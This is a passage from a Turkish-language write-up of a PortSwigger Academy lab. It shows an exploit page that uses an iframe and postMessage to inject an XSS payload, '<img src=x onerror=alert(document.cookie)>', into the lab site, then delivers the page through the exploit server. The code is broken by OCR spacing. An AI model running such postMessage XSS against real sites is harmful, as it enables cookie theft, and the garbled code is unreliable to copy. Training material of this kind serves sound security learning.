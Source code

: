 `             `t ar get . cont ent Wi ndow. post Message(

`                             `"<i mg  sr c=x  oner r or =al er t ( document . cooki e) >", ' \*' ) ;               / / post Message  f r ame' l er  ar ası  i l et i şi mi  sağl amakt aydı .           

`         `}) ; 

`         `t ar get . sr c=

`         `"ht t ps: / / 0add005f 042c0f 178189085900c9006b. web- secur i t y- academy. net / "

`     `</ scr i pt >

</ ht ml >

Bu yapı sayesinde XSS oluştuğunu artık görebiliriz.

![](Aspose.Words.cccac844-d5dd-4f8a-a005-2e49c7480041.031.png)

XSS payload’ının çalışması

Artık bu kısımdan sonra bizden isteneni yapalım. Oluşturduğumuz HTML sayfasının içeriğini PortSigger Academy Lab sayfasında exploit server ile çalıştırabiliriz. Öncelikle bu kısımdan exploit server’a gitmemiz gerekmektedir.

![](Aspose.Words.cccac844-d5dd-4f8a-a005-2e49c7480041.032.png)

exploit server bağlantısı

Bu sayfaya geldikten sonra da hazırladığımız HTML sayfasını hedef kurban sisteme gönderebiliriz.

<ht ml >![](Aspose.Words.cccac844-d5dd-4f8a-a005-2e49c7480041.033.png)

`     `<i f r ame  i d="t ar get "  sr c="">

</ i f r ame>

`     `<scr i pt >

`         `var  t ar get  =  document . get El ement ByI d( ' t ar get ' ) ;

`         `t ar get . addEvent Li st ener ( ' l oad' ,  f unct i on( ) {

`             `t ar get . cont ent Wi ndow. post Message(

`                             `"<i mg  sr c=x  oner r or =al er t ( document . cooki e) >", ' \*' ) ;          }) ; 

`         `t ar get . sr c=

`         `"ht t ps: / / 0add005f 042c0f 178189085900c9006b. web- secur i t y- academy. net / ";      </ scr i pt >

</ ht ml >
